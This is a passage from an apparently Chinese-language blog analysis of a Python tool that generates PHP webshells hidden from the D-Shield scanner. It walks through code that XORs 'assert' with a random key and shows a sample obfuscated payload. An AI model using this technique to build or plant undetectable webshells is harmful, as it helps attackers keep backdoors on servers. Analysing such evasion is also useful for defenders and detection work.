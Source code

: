 ```
def random_keys(len):
    str = '`~-=!@#$%^&amp;*_/+?&lt;&gt;`{``}`|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))
```

random**key函数是生成一个长度为len的随机字符串，字符串中的字符都取自str变量中，即取自“~-=!@#$%^&amp;***/+?&lt;&gt;`{``}`|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`

xor函数：

```
def xor(c1,c2):
    return hex(ord(c1)^ord(c2)).replace('0x',r"x")
```

将字符c1和字符c2转换成ascii码后进行异或运算，再利用hex函数转换为十六进制，同时其中将0x转换成x

好了，下面继续分析gen_payload函数：func是传入gen_payload(func)函数的参数，此处应该是assert，即一个命令执行的函数。然后计算出assert的长度，然后利用random_keys函数从字符串str中随机取出5个字符：赋值给key

```
key = random_keys(len(func))
```

利用for循环分别将func和key字符串中的字符一一取出，分别进行异或运算后，然后连接成了func_line2字符串，而将key字符串赋值给了func_line1字符串。

```
for i in range(0,len(func)):
        enc = xor(func[i],key[i])
        func_line1 += key[i]
        func_line2 += enc
```

最后就得到了payload:即字符串func_line2和字符串func_line1异或。而func_line2和字符串func_line1异或的结果应该是等于func的。原因如下：假设a^b=c，那么a=c^b，即异或是可逆的。此循环将func和key异或的值存放到了func_line2中，将key赋值给了func_line，即此处key=func_line1。最终结果等价于func^func_line1=func_line2，而return的结果是func_line2^func_line1，即最后return的几个依旧是func，即一个命令执行函数assert。只是为了避开d盾的查杀换了一种方式。

```
payload = ''`{`0`}`'^"`{`1`}`"'.format(func_line1,func_line2)
```

到这里就分析完成了，即shellcode的模型中的`{`func1`}`的值是利用随机异或生成函数gen_payload生成的，例如：

```
'rG!q-X'^"x13x34x52x14x5fx2c"
```

上诉字符串看似凌乱，但是其异或的结果依旧是assert。

综上所述：随机异或无限免杀D盾项目的核心点有两个：

1，此木马生成模板本身具备免杀性

2，利用随机异或隐藏了assert，eval等D盾敏感的命令执行函数。



## 免杀马再免杀
